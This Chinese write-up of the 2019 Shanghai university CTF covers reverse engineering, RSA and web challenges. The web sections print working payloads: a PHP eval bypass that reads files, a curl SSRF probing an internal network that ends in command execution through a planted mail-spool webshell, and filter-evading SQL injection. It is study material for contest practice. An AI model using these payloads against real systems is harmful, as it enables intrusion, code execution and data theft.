

# 2019 上海市大学生网络安全大赛

没人做 pwn 吃大亏

## 签到

题目提示登陆失败…，所以要求注册的时候直接点提交，出现一个失败的提示对话框，IDA 打开 010editor.exe 搜索对应字符串，然后在查找引用，同一个函数中包含了本题的 flag，文件实在太大，复现的时候就干脆 010editor 搜索字符串然后上下翻翻找 flag 了。


## Hardware

拿到的是一张Arduino UNO的接线图和一份Intel HEX格式的固件。使用Arduino IDE自带的avr-binutils工具包，可以将固件转换为二进制文件，便于分析：

```bash
avr-objcopy -I ihex -O binary 7seg.ino.hex 7seg.ino.bin
```

使用IDA加载生成的二进制文件（因为Arduino UNO的处理器ATmega328P不在IDA的支持范围内，故处理器选择最接近的ATmega168P）。

由入口__RESET定位到一个死循环的函数sub_2EC（对应Arduino源码的void loop()），发现循环体在不断重复一个固定的操作：

```asm6502
ldi r22, {0|1};
ldi r24, {0..6};
call sub_70
```

结合电路图中Arduino上恰好D0~D6外接至了7位数码管，可知这些操作就是在改变每段数码管的亮灭。按顺序和中间不时出现的“刷新”函数sub_E2，还原出每一位显示的字符，即为flag。


## rsa

告诉了pq和(p+1)/p+(q+1)/q，根据高中的代数知识可以求出 q+p 进而拿到(p-1)*(q-1)==qp-(p+q)+1 然后根据原文是 123 的这一组 爆破 e 的值，得到 e 是 251，然后用 gmpy2 求密钥解得 flag 的 hex

```python
import gmpy2
n = 9538795663851271297602738029671089878718012242935213096566250130325046936720540247534143498025477544161347330379679111765871420732255741210434736423951962189227302658997497664520929375215715960063615792480965807127438948044298348300153102760490410578638259665656608784635088735809470916136628779400145983632930861883762707606629208260803446083579674497451514650309351925430391515629898218875049677870989016071086844819626778388370764400242376469343158294638240660190754978627356076115228410162956087266527271225439142347304100660800517276772407728290414074912243665126741030948775883739544952378188264714716087909797
#2*p*q+q+p=m
m = 19077591327702542595205476059342179757436024485870426193132500260650093873441080495068286996050955088322694660759358223531742841464511482420869472847903924378454605317994995329041858750431431920127231584961931614254877896088596696600306205520980821157276519331313217569270177471618941832273257558800291967266057799408185825199394392306374394195697993019961311696247374832761757990150416392201444079060627610573918631913438062954960835929982836033906925917632413007648356037059843552967726871763559759125837289869091638924336309932526582201350695938677991368335828814565265478203873169858685929462350511138398905572292
# p+q=k
k = m - n * 2
print(k)
# r=(p-1)*(q-1) = p*q-(q+p)-1=n-k+1
r = n - k + 1
p = 368284101618076523549199130884422355928051525996327977632544904437878504262870825378516827225793010165434494157238379685995430409966951122729243411694569562164062815098110639750101378457641471316188502263725098231679401928494160942213175404259256770984218593245458108598930926260386443799301699336309331946341173652201791293571029025818674575198311845811957606474490230382511996537893448524426809391980637983473305318819523408854264623254226127223862150173575206444726570183096891630129244778802793476295746913846105454198627
e = 251
d = gmpy2.invert(e,r)
c = 7303495910407762399046490836902121070389476875516762048462433039234972742941586801378979220008051262826174054961747648114128456872349675769941760630519744351742977740846748646739901172672743584989842268056810152117350241337045055812845489372389014195433916347255846499434232234822333192328886207187844781726928951986353054876826105507064928478812402103648940709131760865763234071703554208057808885564381400571862422316195578258814602362582573148358552148686182480215663291366798585241933446701357953551496955627421526567152576426417189707335038601040167826900549139608192971559659991213411381604721734898065256138516
print(pow(c,d,n))
```

## poly

不知道是题出炸了还是故意的，对比了一下输出文件，发现明文根本没有被加密，只是在前面加了4个零。所以将最后两行拼在一起，得到字符串：`Good!This_is_flag:flag{6069caf6-09e1-494a-bcb5-b94e8f288971}`

## Puzzle


查看题目逻辑，初始化、输入一个串（sub_40ED00怀疑scanf）然后一连串函数调用，第一个检查flag格式（有坑，检测的格式只有[a-f]，而求出的输入串不只包含字母）第二个将连续两字符读入为一字节，后面的函数就只用了v9串，第三个函数与输入没关系暂且跳过，算是初始化了map这个 ，第四个函数用map来异或改变输入串的值，但被异或的值实际上与输入无关，动调提取出异或的数组{0x7c, 0xab, 0x2d, 0x91, 0x2f, 0x98, 0xed, 0xa9}，第五个函数根据8个0到9之间的数值对一个全局变量数组进行了若干操作，因为输入只有10的8次方种可能，同时进行的只是算数运算，所以可以爆破（应该也只能爆破吧我猜的）

八层循环，然后循环中直接复制IDA生成的C代码来跑，很快算出唯一一组能通过第五个函数检查的，与前面的异或数组异或，然后patch掉第一个函数的检测，得到flag

```c
#include <stdio.h>
#include <stdlib.h>
int dword_40F020[8];
int bk[8] = {0x8A, 0x1A1, 0x12A, 0x269, 0x209, 0x68, 0x39F, 0x2C8};
int ans[8] = {0xFFFFFC49, 0x68, 0x10, 0xFFFFCC30, 0x3A71, 0x3878, 0xE7, 0xFFFFFF11};
int i[9];int f;
int change(int i);
int main()
{
    for (i[1] = 0; i[1] != 10; i[1]++)
        for (i[2] = 0; i[2] != 10; i[2]++)
            for (i[3] = 0; i[3] != 10; i[3]++)
                for (i[4] = 0; i[4] != 10; i[4]++)
                    for (i[5] = 0; i[5] != 10; i[5]++)
                        for (i[6] = 0; i[6] != 10; i[6]++)
                            for (i[7] = 0; i[7] != 10; i[7]++)
                                for (i[8] = 0; i[8] != 10; i[8]++)
                                {
                                    f = 0;
                                    for (i[0] = 0; i[0] != 8; i[0]++) dword_40F020[i[0]] = bk[i[0]];
                                    for (i[0] = 0; i[0] != 8; i[0]++)
                                        if (change(i[i[0]+1]) == -1){
                                            f = 1;
                                            break;
                                        }
                                    if (f == 1) continue;
                                    f = 0;
                                    for (i[0] = 0; i[0] != 8; i[0]++)
                                        if (dword_40F020[i[0]] != ans[i[0]]){
                                            f = 1;
                                            break;
                                        }
                                    if (f == 1) continue;
                                    else printf("flag -> [%d, %d, %d, %d, %d, %d, %d, %d]\n", i[1], i[2], i[3], i[4], i[5], i[6], i[7], i[8]);
                                }
}

int change(int i)
{
    switch (i)
    {
    case 0:
        dword_40F020[2] &= dword_40F020[6];
        dword_40F020[3] *= dword_40F020[2];
        break;
    case 1:
        if (!dword_40F020[3])
            return -1;
        dword_40F020[2] /= dword_40F020[3];
        dword_40F020[1] += dword_40F020[5];
        break;
    case 2:
        dword_40F020[4] ^= dword_40F020[5];
        dword_40F020[7] += dword_40F020[0];
        break;
    case 3:
        dword_40F020[7] -= dword_40F020[4];
        dword_40F020[4] &= dword_40F020[1];
        break;
    case 4:
        dword_40F020[5] *= dword_40F020[0];
        dword_40F020[3] -= dword_40F020[6];
        break;
    case 5:
        dword_40F020[0] ^= dword_40F020[3];
        dword_40F020[6] -= dword_40F020[7];
        break;
    case 6:
        if (!dword_40F020[7])
            return -1;
        dword_40F020[5] |= dword_40F020[1] / dword_40F020[7];
        dword_40F020[1] /= dword_40F020[7];
        break;
    case 7:
        dword_40F020[6] += dword_40F020[2];
        dword_40F020[5] |= dword_40F020[1];
        break;
    case 8:
        dword_40F020[0] *= dword_40F020[3];
        dword_40F020[4] -= dword_40F020[7];
        break;
    case 9:
        dword_40F020[2] += dword_40F020[5];
        dword_40F020[3] ^= dword_40F020[4];
        break;
    default:
        puts(">?");
        return -1;
        break;
    }
    return 0;
}

/*7aaa29982a98eaab

xor pattern -> [0x7c, 0xab, 0x2d, 0x91, 0x2f, 0x98, 0xed, 0xa9]
ans --> [6,1,4,9,5,0,7,2]

*/
```

## Touch of Satan

c++的，挺花不过不太影响分析。4020DF函数初步检查输入格式flag{}和uuid中间的减号。然后回到main切掉前后大括号，然后401E16函数按照减号把uuid分割成五个部分。根据flaguuid部分的第一个字符，过一个巨大的switch，但是各个项目非常相似，干的事情主要是将uuid的不同部分重新排列顺序，不过包含相同部分的分支（比如0）提前就可以淘汰了，这一部分结束之后32字节的字符串被切成4字节长度的两大组每组四小组。然后算了代码段的一个散列值（感觉像CRC） 这个值和flag的处理结果被传给401AA3程序的主逻辑（对两大组分别执行一次），之后main将计算结果与8个没有其他访问的全局量比较，并给出正确和错误的结果。

继续看401AA3的主要逻辑：到第三个new[]之前程序运算的东西都和输入没什么关系，所以暂且不看。然后flag的部分被传给一组变量，循环31轮，循环里三个函数，分别->将之前生成的表与flag异或，取flag特定位查表之后放到flag特定位，奇怪的异或和移位。循环之后继续执行两次异或和一次查表。三个函数的操作都是可逆的，写C来执行（为了避免踩坑，结果还是踩了好多坑）

patch 校验和


动调 异或函数上下断点，获取异或表


```c
void rounds_xor(int *tab, int i);
void refind_tab(int *tab, int i);
void rolling(int *tab);
int main()
{
    for (int i = 0; i != 8; i++)
        for (int j = 0; j != 16; j++)//将查表部分的表反转
            retab[16 * i + tabtab[16 * i + j]] = j;
    //::AADBG
    /*int v3=0;
    for(int i=0;i!=0x3D22;++i){
        v3 = (v3>>8)^dword_4053C0[0xFF&(v3 ^ code[i])];
    }  printf("%x\n",~v3);*/
    for (int part = 0; part != 2; part++)
    {
        rounds_xor(out[part], 32);
        refind_tab(out[part], 31);
        rounds_xor(out[part], 31);
        for(int round = 30;round >= 0;round--){
            rolling(out[part]);
            refind_tab(out[part],round);
            rounds_xor(out[part],round);
        }
        for(int j=0;j!=16;j++)
            putchar(j[(char*)out[part]]);
        printf("\t||\t%8x %8x %8x %8x \n",out[part][0],out[part][1],out[part][2],out[part][3]);
    }/*
        rounds_xor(array, 32);
        refind_tab(array, 31);
        rounds_xor(array, 31);
        for(int round = 30;round >= 0;round--){
            rolling(array);
            refind_tab(array,round);
            rounds_xor(array,round);
        }
    for(int j=0;j!=16;j++) putchar(j[(char*)array]);
    printf("\t||\t%8x %8x %8x %8x \n",array[0],array[1],array[2],array[3]);*/
}
/*34069f91 0x6ad0fc27
  *a1 = _rol4_(*a1, -13);
  a1[2] = _rol4_(a1[2], -3);
  a1[1] ^= *a1 ^ a1[2];
  a1[3] ^= a1[2] ^ 8 * *a1;
  a1[1] = _rol4_(a1[1], -1);
  a1[3] = _rol4_(a1[3], -7);
  *a1 ^= a1[3] ^ a1[1];
  a1[2] ^= a1[3] ^ (a1[1] << 7);
  *a1 = _rol4_(*a1, -5);
  a1[2] = _rol4_(a1[2], -22);
*/

unsigned int ror(unsigned int uiNumber, unsigned char iBits)
{
    register unsigned int _res;
    __asm__("ror %1, %%eax;"
            : "=a"(_res)
            : "c"(iBits), "0"(uiNumber));
    return _res;
}
void rolling(int *a1)
{
    a1[2] = ror(a1[2], -22);
    a1[0] = ror(a1[0], -5);
    a1[2] ^= a1[3] ^ (a1[1]<<7);
    a1[0] ^= a1[3] ^ a1[1];
    a1[3] = ror(a1[3], -7);
    a1[1] = ror(a1[1], -1);
    a1[3] ^= a1[2] ^ (a1[0]<<3);
    a1[1] ^= a1[0] ^ a1[2];
    a1[2] = ror(a1[2], -3);
    a1[0] = ror(a1[0], -13);
}
void rounds_xor(int *tab, int i)
{
    tab[0] ^= xor_tab[i][0];
    tab[1] ^= xor_tab[i][1];
    tab[2] ^= xor_tab[i][2];
    tab[3] ^= xor_tab[i][3];
}
void refind_tab(int *tab, int round)
{
    int v4[4] = {0, 0, 0, 0}, v3,i;
  for ( i = 0; i <= 31; ++i )
  {
    v3 = (unsigned char)retab[16 * (round % 8)
                              + (4 * (unsigned char)(tab[2] >> (i & 0x1F)) & 4 | 2
                                                                                 * (unsigned char)(tab[1] >> (i & 0x1F)) & 2 | (*tab >> (i & 0x1F)) & 1 | 8 * (unsigned char)(tab[3] >> (i & 0x1F)) & 8)];
    v4[0] |= (v3 & 1) << (i & 0x1F);
    v4[1] |= ((v3 >> 1) & 1) << (i & 0x1F);
    v4[2] |= ((v3 >> 2) & 1) << (i & 0x1F);
    v4[3] |= ((v3 >> 3) & 1) << (i & 0x1F);
  }
  tab[0] = v4[0];
  tab[1] = v4[1];
  tab[2] = v4[2];
  tab[3] = v4[3];
}
```
跑出的结果，和所有可用的首字符值，逐个尝试之后发现9是可行解，还原出输入的flag


## decade

首先通过题目的F12发现在 `/code` 下是代码，查看发现是一个源码审计，而且是无参数函数的RCE，所以根据查阅原先的各种比赛的赛题。

```php
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}else {
        echo "No way!!!";
    }
```


根据过滤函数，它不能使用local，get，set，readfile相关的函数，所以想着是先构造一个 `.` 或 `/` 来使用scandir来获取文件。

通过chr和ord以及crypt函数配合生成一个. `chr(ord(strrev(crypt(serialize(array())))))`

然后通过与end, chdir配合，切换到上一目录，访问根目录的index.php。

```php
chdir(next(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
```

再次构造一个.和scandir，读取最后一个文件index.php，并通过next和file配合读取文件第二行，即可拿到flag。最后的payload是：

```php
echo(next(file(end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))))))))))));
```

因为.是随机生成的，所以有一定概率不会一次成功，需要多次尝试正好对上了两个.生成就好了。

## babyt5

原题，参考[安恒杯6月赛web2 easypentest](https://blog.szfszf.top/tech/%E5%AE%89%E6%81%92%E6%9D%AF6%E6%9C%88%E8%B5%9B-easypentest/)

```php
<?php
highlight_file(__FILE__);
$x = $_GET['x'];
$pos = strpos($x,"php");
if($pos){
exit("denied");
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,"$x");
curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
$result = curl_exec($ch);
echo $result;
```

一个很直白的curl ssrf，由于使用了curl，可以产生一个二次编码问题，通过将p编码为%2570可以绕过。

读取`file:///var/www/html/flag.%2570hp`可以看到源码，提示我查看`/etc/hosts`

读取`file:///etc/hosts`发现最后一行为`172.18.0.3 1a59decff560`，意味着存在内网。

可以使用gopher协议扫描内网，得到`172.18.0.2`开放80端口，连上去是一个php`include $_GET[a];`，再使用dict协议扫描端口，发现在25端口有一个SMTP。

结合之前的文件包含，可以读取到本地文件，读取邮件储存`/var/mail/www-data`，发现已经有人写好了木马，直接构造`?x=http://172.18.0.2?a=/var/mail/www-data%261=system("ls%2520/");`

看到还有一种解法是将木马写入日志，然后php包含日志

可以看到根目录的Th7s_Is_Flag文件，读取得到flag{add386bb8e04d516c1e33d91cb939fbf}

## easysql

上来就是一个sql注入，测试一下发现过滤了`逗号，or，union select`

尝试用`union/**/select`绕过注入，可以成功。使用`SELECT * FROM (select 1)a1 JOIN (select 2)a2`的方法绕过逗号过滤产生多个列。

过滤or真是特别讨厌，连着`order by`,`information_schema`一起报废，仔细搜索一番查到`mysql.innodb_table_stats`也有表名

| 列名 | 描述 |
| :------ | :------ |
| database_name | 数据库名 |
| table_name | 表名	|	
| last_update | 更新时间
| n_rows | 行数 |
| clustered_index_size | 索引大小 |
| sum_of_other_index_sizes | 其他索引大小 |

注入语句
```sql
union/**/select * from ((select 1)a JOIN (select group_concat(table_name) from mysql.innodb_table_stats where database_name = database())b JOIN (select 3)c JOIN (select 4)d) %23
```
可以查到两张表：article,fl111aa44a99g，很明显fl111aa44a99g就是我们的目标
但是我们不知道列名，没关系，同样可以使用`SELECT * FROM (select 1)a1 JOIN (select 2)a2 UNION SELECT * FROM <table>`的方法在不知道列名的情况下查询数据

到这部的时候被坑了好久，
1. 是题目的mysql是5.6，跟我测试时的5.7有一点细小的语法差异，最后我拉了一个5.6的docker才发现了这个问题
2. 是我在注的时候经常忘记join

最后试了好久才调通这个payload

```sql
union/**/select * from ((select 1)a JOIN (select `3` from (select * from (select 1)a1 join (select 2)a2 join (select 3)a3 union/**/select * from fl111aa44a99g limit 1 offset 1)e)b JOIN (select 3)c JOIN (select 4)d) %23
```

## Unlimited Base64 Works

未做出，一个视频2千多帧，队友人肉OCR手动输了一天，得出来一个base64，解开一个损坏的图片，又开始拼图，拼了一晚没拼出来，他说要打死出题人

## 无线安全

未做出，大概的过程是

有一个wep的握手包，可以直接用aircrack-ng爆破出来密码yeahUKn0wW3Pp
流量包里是一个adb流量，发送了一个apk出去，处理一番之后能把apk提取出来（队友处理的，细节不太清楚，好像每个包还有去掉头部）
apk反编译之后是一个aes/fcb的加密，怀疑之前那么wep密码能解密，但是最后也没做出来

## 诚聘PWN师傅

尬笑
